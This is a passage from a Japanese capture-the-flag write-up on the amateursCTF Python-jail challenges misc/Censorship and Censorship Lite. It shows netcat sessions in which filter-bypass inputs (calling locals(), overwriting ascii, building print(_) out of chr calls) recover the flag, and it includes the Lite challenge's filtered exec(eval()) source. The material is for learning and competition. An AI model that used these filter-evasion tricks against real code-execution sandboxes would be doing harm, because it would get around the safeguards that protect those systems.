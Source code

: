 フラグを見る限り、非想定解のようです。

### 別解:misc/Censorship

他の人のWriteupを見る限り、いろいろ解き方があるみたいです。

- locals関数で、ローカル変数の中身を出力する。

```sh
$ nc amt.rs 31670
Give code: locals()[_]
'amateursCTF{i_l0v3_overwr1t1nG_functions..:D}'
```

- 関数の上書き
  - ascii関数を上書きして、chrで書いた文字列を実行させる。

```sh
$ nc amt.rs 31670
Give code: ascii = lambda x: x;
Give code: (lambda:chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(95)+chr(41))()
amateursCTF{i_l0v3_overwr1t1nG_functions..:D}
```

## misc/Censorship Lite

![3](./images/3.jpg)

Censorshipの続編で、さらに使える文字が少なくなります。

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "\lite0123456789"]):
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

